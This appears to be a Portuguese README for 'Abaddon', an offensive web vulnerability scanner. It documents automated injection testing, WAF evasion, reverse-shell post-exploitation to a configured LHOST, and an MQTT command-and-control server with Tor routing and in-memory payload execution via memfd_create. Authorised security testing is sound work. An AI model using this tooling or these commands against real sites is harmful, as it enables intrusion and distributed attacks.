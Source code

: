 # Abaddon 8.5 - Made By DUKE_BLCK

**AVISO LEGAL:** Esta ferramenta destina-se apenas a fins educacionais e testes de segurança autorizados. O uso não autorizado desta ferramenta contra qualquer sistema é ilegal. O autor não se responsabiliza por qualquer uso indevido.

## Visão Geral

Abaddon é um scanner de segurança web multifuncional projetado para automatizar a descoberta e o teste de vulnerabilidades comuns em aplicações web. Ele integra um crawler, um scanner de parâmetros, um motor de detecção de vulnerabilidades e um sistema de Comando e Controle (C2) baseado em MQTT para operação distribuída.

## Funcionalidades

- **Crawling Inteligente:** Descobre links e endpoints dentro do mesmo domínio alvo.
- **Busca Avançada de Parâmetros:** Utiliza análise de HTML (formulários), JavaScript (fetch, axios) e wordlists para encontrar vetores de injeção.
- **Detecção de Vulnerabilidades:** Testa uma variedade de vulnerabilidades, incluindo:
    - Injeção de SQL (Baseada em erro, tempo e Out-of-Band)
    - Injeção de Comandos (RCE)
    - Cross-Site Scripting (XSS) Refletido
    - Server-Side Template Injection (SSTI)
    - Local File Inclusion (LFI)
- **Técnicas de Evasão:** Utiliza mutação polimórfica de payloads, codificação, headers de bypass (X-Forwarded-For, etc.) e rotação de User-Agent para evitar WAFs e sistemas de detecção.
- **Pós-Exploração:** Tenta estabelecer uma reverse shell para o `LHOST` e `LPORT` configurados após a descoberta de uma RCE.
- **Operação Distribuída (C2):** Permite que múltiplos agentes (`abaddon7.py`) sejam controlados por um servidor central (`c2_server.py`) via MQTT.

## Arquitetura

O projeto é composto por dois componentes principais:

1.  **`abaddon7.py` (Agente):** O cliente que executa os scans. Pode operar em modo autônomo (standalone) ou como um agente conectado a um servidor C2, aguardando comandos.
2.  **`c2_server.py` (Servidor C2):** O servidor de Comando e Controle que gerencia os agentes. Ele pode enviar comandos de scan, listar nós ativos, agregar dados e receber resultados de vulnerabilidades em tempo real.

## Instalação

1.  Clone o repositório:
    ```bash
    git clone <url-do-repositorio>
    cd <diretorio-do-repositorio>
    ```

2.  Instale as dependências Python:
    ```bash
    pip install -r requirements.txt
    ```

3.  (Opcional) Se desejar usar proxies para os scans, crie um arquivo `proxies.txt` no mesmo diretório e adicione seus proxies HTTP, um por linha (ex: `127.0.0.1:8080`).

## Uso

### Modo Autônomo (Standalone)

Para executar um scan simples em um único alvo:

```bash
python3 abaddon7.py example.com
python3 abaddon7.py example.com --lhost SEU_IP --lport SUA_PORTA -v


Modo C2 (Comando e Controle)
Este modo permite orquestrar scans em múltiplos agentes.

1. Inicie o Servidor C2:
Bash
python3 c2_server.py
O servidor se conectará a um broker MQTT público (broker.hivemq.com) e aguardará conexões de agentes.

2. Inicie um ou mais Agentes:
Em máquinas diferentes (ou terminais diferentes), inicie os agentes apontando para o servidor C2.
Bash
python3 abaddon7.py --c2-protocol mqtt --c2-server broker.hivemq.com --c2-port 1883
--c2-protocol: Define o protocolo de comunicação (atualmente mqtt).
--c2-server: Endereço do broker MQTT.
--c2-port: Porta do broker MQTT.
--c2-tor: (Opcional) Roteia a comunicação do agente com o C2 através da rede Tor (requer o serviço Tor rodando localmente na porta 9050).

3. Comandos do Servidor C2:
Uma vez que o servidor C2 esteja rodando, você pode usar os seguintes comandos:
nodes: Lista todos os agentes (nós) online e há quanto tempo foram vistos pela última vez.
Plain Text
C2> nodes
scan <alvo> <node_id|all>: Envia uma tarefa de scan para um agente específico ou para todos os agentes conectados.
Plain Text
C2> scan example.com all
savevulns: Salva todas as vulnerabilidades encontradas por todos os agentes em um arquivo local vulns_<timestamp>.txt.
Plain Text
C2> savevulns
attack <local|kernel> <payload|path>: Executa um payload diretamente no servidor C2.
local: Executa um payload Python inline ou um script a partir de um caminho de arquivo.
kernel: Tenta injetar e executar um payload na memória do servidor C2 usando a syscall memfd_create (requer ambiente Linux).
Plain Text
C2> attack local "import os; os.system('id')"
C2> attack kernel "/bin/bash -c 'echo PoC > /tmp/poc.txt'"
enum all: Agrega todas as URLs, subdomínios e diretórios encontrados por todos os agentes durante os scans e salva a lista consolidada e única em url_enum.txt.
Plain Text
C2> enum all
shutdown <node_id|all>: Envia um comando para desligar um agente específico ou todos os agentes.
Plain Text
C2> shutdown node_1a2b3c4d
help: Mostra a lista de comandos disponíveis.
exit: Encerra o servidor C2.
